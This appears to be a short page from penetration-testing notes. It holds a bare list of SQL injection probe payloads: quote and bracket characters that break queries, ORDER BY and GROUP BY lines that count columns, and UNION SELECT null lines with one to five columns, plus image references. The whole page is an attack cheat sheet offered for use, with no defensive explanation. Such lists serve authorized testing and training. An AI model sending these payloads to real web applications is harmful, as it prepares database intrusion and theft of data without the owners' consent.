 **List**

```
'
"
`
')
")
`)
'))
"))
`))
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```



<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

